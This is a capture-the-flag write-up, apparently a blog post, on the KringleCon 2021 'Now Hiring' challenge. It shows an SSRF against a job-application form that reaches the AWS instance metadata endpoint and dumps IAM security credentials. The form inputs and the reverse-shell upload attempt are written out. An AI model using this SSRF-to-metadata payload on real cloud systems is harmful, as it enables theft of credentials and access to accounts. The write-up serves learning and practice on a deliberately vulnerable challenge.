 ```yaml
---
tags:
  - post
  - kringlecon2021Post
title: Now Hiring
layout: post.njk
description: >
  A short description of the article
eleventyNavigation:
  key: Post
  title: Now Hiring
  parent: KringleCon2021Posts
---
```

# Introduction
This is a challenge that I truely do reccomend doing. It teaches you something about AWS IMDS, something that is compleatly new to me. I suggest reading this page first to grasp a better understanding of what we are actually doing on the serverside. https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html
The description for the challenge is: *What is the secret access key for the Jack Frost Tower job applications server? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.*
So we are after a secret key.

# Recon
The current target is this webpage: https://apply.jackfrosttower.com/. A simple nmap scan did reveal several open ports, but none of those will be used in this write up.
The page is simple and lets you apply to join the Jack Frost team. The four pages are Home, Opportunities, Apply or About. Dirb did find https://apply.jackfrosttower.com/images/, the dir itself is 403 forbidden, but manually finding pictures there is allowed. I'll save that for later. 
Further enumeration surronding media on the site shows that the photos under opportunity are broken and have no data. Strange, but might help. 
The apply application lets you upload files and asks for Name, Email, Phone number, URL to NLBI report and additional information. 
What is a NLBI report? http://nppd.northpolechristmastown.com/
It's a report athat you are injustly set on the naughty list. I'm guessing it does a check up against that url to see if the user is allowed to apply.

So to summerize:
- We can most likely send the server to an url
- We can upload files
- We can manually check for images in the image folder if we know the name

We need to send something in the form to check the output, additionally I will start burp to make it easier to enumerate via the repeater.
I like to put unique values to see where they end up. By that we can easier understand what gave what error.
The email form didn't like that i added chars that were illegal, but thats on the clientside. Just edit the form with inspector to change the type field from email to text and you're good to go.
```
Name=Beans'
Email=TGC@nowhere.com--
Phone number:123123
Field of Expertise=Aggravated pulling of hair
Resume=php-reverse-shell.php (this file will not call back to me sience it is coded to a 192.168 address, but I wan't to see what happens).
URL to your public NLBI report = http://nppd.northpolechristmastown.com/infractions 
Additional information = Give root pls
```
With these parameters I only recive a submission recived. I can't find our data anywhere, so this must not be it.
I'm going to try IMDS to see what we recive:
```
Name=Beans'
Email=TGC@nowhere.com--
Phone number:123123
Field of Expertise=Aggravated pulling of hair
Resume=php-reverse-shell.php (this file will not call back to me sience it is coded to a 192.168 address, but I wan't to see what happens).
URL to your public NLBI report = http://169.254.169.254/latest/meta-data/
Additional information = Give root pls
```
This results in a new page! It tells us that they will be in touch. And we see a picture that is broken. But upon inspecting the picture, we seee that there is data in it. I downloaded it and tried to read the output. It resulted in the following:
```
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/ami
block-device-mapping/ebs0
block-device-mapping/ephemeral0
block-device-mapping/root
block-device-mapping/swap
elastic-inference/associations
elastic-inference/associations/eia-bfa21c7904f64a82a21b9f4540169ce1
events/maintenance/scheduled
events/recommendations/rebalance
hostname
iam/info
iam/security-credentials
iam/security-credentials/jf-deploy-role
instance-action
instance-id
instance-life-cycle
instance-type
latest
latest/api/token
local-hostname
local-ipv4
mac
network/interfaces/macs/0e:49:61:0f:c3:11/device-number
network/interfaces/macs/0e:49:61:0f:c3:11/interface-id
network/interfaces/macs/0e:49:61:0f:c3:11/ipv4-associations/192.0.2.54
network/interfaces/macs/0e:49:61:0f:c3:11/ipv6s
network/interfaces/macs/0e:49:61:0f:c3:11/local-hostname
network/interfaces/macs/0e:49:61:0f:c3:11/local-ipv4s
network/interfaces/macs/0e:49:61:0f:c3:11/mac
network/interfaces/macs/0e:49:61:0f:c3:11/owner-id
network/interfaces/macs/0e:49:61:0f:c3:11/public-hostname
network/interfaces/macs/0e:49:61:0f:c3:11/public-ipv4s
network/interfaces/macs/0e:49:61:0f:c3:11/security-group-ids
network/interfaces/macs/0e:49:61:0f:c3:11/security-groups
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-id
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-ipv4-cidr-block
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-ipv6-cidr-blocks
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-id
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv4-cidr-block
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv4-cidr-blocks
network/interfaces/macs/0e:49:61:0f:c3:11/vpc-ipv6-cidr-blocks
placement/availability-zone
placement/availability-zone-id
placement/group-name
placement/host-id
placement/partition-number
placement/region
product-codes
public-hostname
public-ipv4
public-keys/0/openssh-key
reservation-id
security-groups
services/domain
services/partition
spot/instance-action
spot/termination-time
```
So our query succeeded! We are using SSRF and IMDS to retrive information about the backend. Well, our goal is to retrive the public key, so lets do that!

# Exploitation
I used the following payload for my exploit:
```
Name=Beans'
Email=TGC@nowhere.com--
Phone number:123123
Field of Expertise=Aggravated pulling of hair
Resume=
URL to your public NLBI report = http://169.254.169.254/latest/meta-data/iam/security-credentials
Additional information = Give root pls
```
**The result**
```
{
        "Code": "Success",
        "LastUpdated": "2021-05-02T18:50:40Z",
        "Type": "AWS-HMAC",
        "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
        "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
        "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
        "Expiration": "2026-05-02T18:50:40Z"
}
```

And there we got our flag!

# Final thoughts
I'm not sure how real world this is by having the results put into a picture. But the creativity makes it so much more fun.
If you want to do this in burp you can, then you have to go to the images subpage we found earlier and get them from there.
